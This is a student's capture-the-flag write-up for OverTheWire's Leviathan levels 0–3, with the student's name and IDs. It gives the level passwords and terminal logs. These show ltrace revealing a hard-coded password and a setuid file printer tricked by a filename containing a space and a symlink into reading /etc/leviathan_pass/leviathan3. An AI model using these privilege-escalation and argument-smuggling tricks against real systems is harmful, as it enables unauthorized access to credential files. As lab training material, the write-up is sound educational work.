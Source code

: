 **Name** - Ruwindu De Silva

**SLIIT ID** - IT12044528

**Curtin ID** - 18297188

#Levoathan 0 to 1
In overthewire wargames site, leviathan 0 page provides the user name and password ro the leviathan 0

Using the "ls" command we can find there is another derectory called ".backup".
Inside of that there is a html file with full of text. So to retrieve the password we use cat command with grep by giveing a keyword as password.

Leviathan 1 pic

The password for the next level is **"rioGegei8m"**

#Bandit 1 to 2
We have retrived the password for this level in previous level.

Using "ls" command we found that there is an exicutable file and executed it. It has protected with password and probably it may contains the password for the next level. To check which function the executable runs we uses the command "ltrace". We can see it runs "strcmp()" function and it compare the user input with the string "sex" and that means the password for that is "sex".

It guids us to another session and by entering "whoami" it says that it is leviathan2. So by entering quick "cat" command we can find the password for the next level.

Leviathan 2 pic
```
leviathan1@melinda:~$ ls -al
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 167 root       root       4096 Jul  9 16:27 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan2 leviathan1 7493 Nov 14  2014 check
leviathan1@melinda:~$ ./check
password: leviathan1
Wrong password, Good Bye ...
leviathan1@melinda:~$ ltrace ./check
__libc_start_main(0x804852d, 1, 0xffffd7a4, 0x80485f0 <unfinished ...>
printf("password: ")                             = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642password: leviathan
)     = 108
getchar(0x8048680, 47, 0x804a000, 0x8048642)     = 101
getchar(0x8048680, 47, 0x804a000, 0x8048642)     = 118
strcmp("lev", "sex")                             = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)             = 29
+++ exited (status 0) +++
leviathan1@melinda:~$ ./check
password: sex
$ whoami
leviathan2
$ cat /etc/leviatham
cat: /etc/leviatham: No such file or directory
$ cat /etc/levithan_pass/leviathan2
cat: /etc/levithan_pass/leviathan2: No such file or directory
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
$ ougahZi8Ta

```

The password for the next level is **"ougahZi8Ta"**

#Leviathan 2 to 3
We have located an executable file called printfile in the "/home/leviathan2". When we execute that it requires a text file to continue. So We creates a .txt file at /tmp/ans/ derectory and ryn the executable with ltrace. It shows that access() does is check permissions based on the process’ real user ID rather than the effective user ID. Using that vulnerability we get the password for the next level.

```
leviathan2@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 167 root       root       4096 Jul  9 16:27 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14  2014 printfile
leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$ mkdir /tmp/ans
leviathan2@melinda:~$ touch /tmp/ans/ans\ file.txt
leviathan2@melinda:~$ ls /tmp/ans
ans file.txt
leviathan2@melinda:~$ ltrace ./printfile /tmp/ans/ans\ file.txt
__libc_start_main(0x804852d, 2, 0xffffd784, 0x8048600 <unfinished ...>
access("/tmp/ans/ans file.txt", 4)               = 0
snprintf("/bin/cat /tmp/ans/ans file.txt", 511, "/bin/cat %s", "/tmp/ans/ans fil  e.txt") = 30
system("/bin/cat /tmp/ans/ans file.txt"/bin/cat: /tmp/ans/ans: No such file or d  irectory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
leviathan2@melinda:~$
leviathan2@melinda:~$
leviathan2@melinda:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/ans/ans
leviathan2@melinda:~$ ls /tmp/ans
ans  ans file.txt
leviathan2@melinda:~$ ./printfile /tmp/ans/ans
You cant have that file...
leviathan2@melinda:~$ ./printfile /tmp/ans/ans\ file.txt
Ahdiemoo1j
/bin/cat: file.txt: No such file or directory
leviathan2@melinda:~$ ~/
-bash: /home/leviathan2/: Is a directory
leviathan2@melinda:~$ cd ~/
leviathan2@melinda:~$ pwd
/home/leviathan2
leviathan2@melinda:~$
```

